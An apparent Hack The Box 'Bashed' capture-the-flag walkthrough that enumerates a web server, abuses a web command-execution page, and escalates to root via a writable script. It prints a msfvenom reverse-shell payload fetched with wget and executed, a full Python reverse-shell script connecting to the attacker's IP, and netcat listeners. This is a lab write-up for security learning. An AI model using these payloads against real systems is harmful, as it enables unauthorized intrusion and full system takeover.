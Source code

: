 ## HTB: Bashed Walkthrough

### Enumeration
Start with a full Nmap scan to identify open ports:
```bash
sudo nmap -sV -sC -sS -oA scan/result $IP
```
The results show only port **80 (HTTP)** is open.

### HTTP Enumeration
Visiting the website reveals a PHP-based web application. To discover hidden paths:
```bash
gobuster dir --url "http://$IP" -w /usr/share/dirb/wordlists/small.txt
```
The `/dev/` directory contains accessible files — one allows command execution via the web.

Using this functionality, grab the user flag:
```bash
cat /home/arrexel/user.txt
```

### Privilege Escalation
Run `sudo -l` to identify available sudo privileges:
```bash
sudo -l
```
It reveals that we can run scripts as **scriptmanager** without a password.

List all files owned by **scriptmanager**:
```bash
find / -user scriptmanager -type f 2>/dev/null
```
A Python script in `/scripts/` is modifiable. We'll exploit it.

### Reverse Shell via ELF Payload
Generate a reverse shell payload:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f elf > exploit.elf
```
Serve it via Python:
```bash
python3 -m http.server 80
```
Download and execute it from the target:
```bash
cd /tmp
wget http://$YOUR_IP/exploit.elf
chmod +x exploit.elf
./exploit.elf
```
Start a listener:
```bash
nc -lvnp 9001
```
Once inside, stabilize the shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen
```

### Alternative Python Backdoor
Create `test.py`:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$YOUR_IP",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```
Upload and execute it using the writable script.

Start another listener:
```bash
nc -lvnp 9002
```
This grants a shell as **root**.

### Root
Retrieve the root flag:
```bash
cat /root/root.txt
```

---

🎉 Congrats, you rooted **HTB: Bashed**!

